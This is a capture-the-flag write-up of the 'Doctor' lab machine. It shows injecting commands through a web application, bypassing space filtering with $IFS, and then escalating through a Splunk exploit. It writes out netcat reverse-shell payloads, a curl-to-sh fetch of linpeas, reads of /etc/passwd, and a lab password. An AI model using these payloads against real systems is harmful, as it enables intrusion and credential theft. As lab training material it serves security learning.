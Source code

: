 # Doctor - Easy

### Initial recon
After the nmap scan we get only tree ports open: 22(ssh), 80(web), 8089(splunk)

### First web scan on port 80
Starting to look into the web was kindof strange because all files were `.html` and the folders weren't protected, but in the end there was nothing usefull. Though it disclosed a crucial information by putting their email adress: `info@doctors.htb`. Now we have a vhost to work with. 

### Recon on doctors.htb (port 80)
Here we have to deal with a messaging system. We can create an account, login, write a new message and update our profile. Becuase it seemed it's a new application, I decided to check the response headers on Burp and I got `Server: Werkzeug/1.0.1 Python/3.8.2`. This means that SQLi it's highly unlikely, and XSS won't work. Here I got another idea, to use the `http://<ip>/$(<bash script>)` and it worked. Even tough this is an unintended solution, it was very interesting to use and I had a few tricks to pull out. 

At first I tried `http://10.10.14.113/?file=$(id)` and got `GET /uid=1001(web)` which was only the first part of the output. Than I tried to use `http://10.10.14.113/?file=$(pwd)` and I ended up with `/home/web` which was odd. Here I took into account that the initial web scan was only html based so it must have run Apache and have the path at `/var/www/html` and I tried this `http://10.10.14.113/?file=$(whoami>/var/www/html/abx.txt)` and when I tried to access `http://10.10.10.209/abx.txt` it worked with the full output. Now the only issue I had was that `http://10.10.14.113/?file=$(cat /etc/passwd>/var/www/html/abx.txt)` wouldn't work so I couldn't build a shell payload. First try was with `${IFS}` but it didn't worked so I ended up to remove `{}` and I got a hit ` http://10.10.14.113/$(cat$IFS/etc/passwd>/var/www/html/abx.txt)`. 

Now that I could execute all unix cmds I decided it was time to get a shell, so I lised `http://10.10.14.113/$(cat$IFS/user/bin>/var/www/html/abx.txt)` and there were two ncat binaries `nc.traditional` and `nc.openbsd`. This was the payload that I leaded up to RCE: `http://10.10.14.113/$(nc.traditional$IFS-e/bin/sh$IFS'10.10.14.113'$IFS'9001')`.

### From www-data to shaun

I upgraded my shell to a `tty` one `python3 -c "__import__('pty').spawn('/bin/bash')"` and run linpeas with `curl http://10.10.14.113/linpeas.sh |sh` and looked over the files which cointained the word password. Here was what I've found: `/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"`. I tried to login using ssh but it didn't worked so I used the `su shaun` and it worked.

### From shaun to root
This was the easiest step from all because ti wasn't actually something new. During the initial user recon I found the github page (SplunkWhisperer2)[https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2] which exploited the `Splunk Atom Feed: splunkd` with the given credentials. I tried it to run locally but it didn't work becuase python2 wasn't installed, so I gone with the remote script. The final command was `python exploit.py --host 10.129.17.176 --port 8089 --lhost 10.10.14.113 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/bash '10.10.14.113' '9002'"`.

### Credentials
- shaun:Guitar123